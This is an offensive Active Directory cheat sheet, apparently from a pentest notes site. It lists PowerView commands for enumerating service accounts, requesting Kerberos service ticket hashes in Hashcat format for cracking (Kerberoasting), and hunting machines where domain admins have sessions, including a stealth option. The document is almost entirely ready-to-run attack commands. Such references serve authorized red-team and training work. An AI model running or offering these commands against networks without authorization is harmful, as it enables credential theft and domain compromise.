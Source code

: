 ### SPN Enumeration

{% code overflow="wrap" %}
```powershell
# find all users with an SPN set (likely service accounts)
Get-DomainUser -SPN

# find all service accounts in "Domain Admins"
Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'}

# Retrieve SPN hash
Get-DomainUser | Get-DomainSPNTicket -Format Hashcat | select -ExpandProperty Hash
Get-DomainUser -Identity <User> | Get-DomainSPNTicket -Format Hashcat | select -ExpandProperty Hash
```
{% endcode %}

### User Hunting

#### PowerView

```powershell
# Find all machines on domain where current user has local admin privileges
Find-LocalAdminAccess -Verbose
Find-LocalAdminAccess -ComputerDomain <Domain> -Verbose

# Find computers where domain administrators or specified user / group has session
Invoke-UserHunter
Invoke-UserHunter -Domain <Domain>
Invoke-UserHunter -GroupName "RDPUsers"
Invoke-UserHunter -Stealth # Makes less noise
Invoke-UserHunter -CheckAccess # Check if accessible

# Find computers where all and any users / groups have session
Invoke-UserHunter -ShowAll
Invoke-UserHunter -ShowAll -CheckAccess # Check if accessible

# Find local admins on all machines of the domain (needs local admin rights on target).
Invoke-EnumerateLocalAdmin –Verbose

# Get users logged on to the local system
Get-NetLoggedon

# Get actively logged users on a computer (needs local admin rights on the target)
Get-NetLoggedon –ComputerName <Hostname>
Get-DomainComputer | Get-NetLoggedon # All Systems

# Get locally logged users on a computer (needs remote registry on the target - started by-default on server OS)
Get-LoggedonLocal -ComputerName <Hostname>
Get-DomainComputer | Get-LoggedonLocal # All Systems

# Get the last logged user on a computer (needs administrative rights and remote registry on the target)
Get-LastLoggedOn –ComputerName <Hostname>

# Poll asystem for when a particular user accesses a resource
Invoke-UserHunter -ComputerName <Hostname> -Poll 100 -UserName <user> -Delay 5 -Verbose
```
